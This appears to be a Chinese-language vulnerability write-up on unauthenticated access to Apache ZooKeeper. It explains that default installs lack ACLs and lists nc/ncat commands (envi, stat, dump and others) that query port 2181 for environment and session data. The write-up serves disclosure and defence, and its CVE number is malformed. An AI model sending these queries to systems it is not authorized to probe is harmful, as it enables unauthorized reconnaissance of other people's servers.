

# Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

<a-checkbox checked>Apache ZooKeeper</a-checkbox></br>

## 漏洞复现

Apache  ZooKeeper 默认开放`2181端口` ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```



其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```